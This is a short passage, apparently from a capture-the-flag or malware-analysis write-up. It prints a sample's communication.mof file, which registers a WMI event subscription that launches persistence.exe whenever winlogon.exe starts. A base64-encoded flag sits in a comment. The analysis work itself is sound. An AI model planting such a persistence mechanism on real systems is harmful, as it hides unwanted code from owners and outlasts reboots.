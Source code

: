 It is also visible in the event logs.

![](screenshots/15.png)

In the [communication.mof](workdir/malware/communication.mof) file, the details for the entry can be found. 

![](screenshots/16.png)

```c#
#PRAGMA NAMESPACE ("\\\\.\\root\\subscription")
instance of CommandLineEventConsumer as $Cons
{
    Name = "PersistenceHello";
    RunInteractively=false;
    CommandLineTemplate="C:\\Windows\\System32\\persistence.exe";
	};
instance of __EventFilter as $Filt
{
    Name = "PersistenceHello";
    EventNamespace = "root\\subscription";
    Query ="SELECT * FROM __InstanceCreationEvent Within 3"
            "Where TargetInstance Isa \"Win32_Process\" "
            "And Targetinstance.Name = \"winlogon.exe\" ";
    QueryLanguage = "WQL";
};
instance of __FilterToConsumerBinding
{ 
     Filter = $Filt;
     Consumer = $Cons;
};

//aGNzY3tha2tvcl9tYXJhZG9rX21lZ19lZ3lfa2ljc2l0X2Nzb2tvbG9tfQ==
```